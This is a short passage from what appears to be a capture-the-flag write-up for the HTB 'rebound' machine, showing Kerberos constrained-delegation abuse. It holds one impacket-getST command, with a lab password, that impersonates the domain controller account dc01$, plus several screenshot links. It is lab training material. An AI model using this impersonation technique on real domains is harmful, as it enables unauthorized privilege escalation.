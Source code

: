 - Once the attribute has been modified, getST can then perform all the necessary steps to obtain the final "impersonating" Service Ticket:

From BloodHound, we can see the SPN to use for delegate\$


![image40](../resources/923a5f654e1d41aebf9a06989ac85c79.png)


![image41](../resources/159611edee42464b814bf0ebab0810e8.png)


![image42](../resources/ceb194de813248bdabed9d6154d5cbc1.png)

```bash
impacket-getST -spn "browser/dc01.rebound.htb" -impersonate "dc01$" 'rebound.htb/ldap_monitor:1GR8t@$$4u' -dc-ip 10.129.169.100

```

![image43](../resources/8002587590a6416c99adb493a5f38bb0.png)
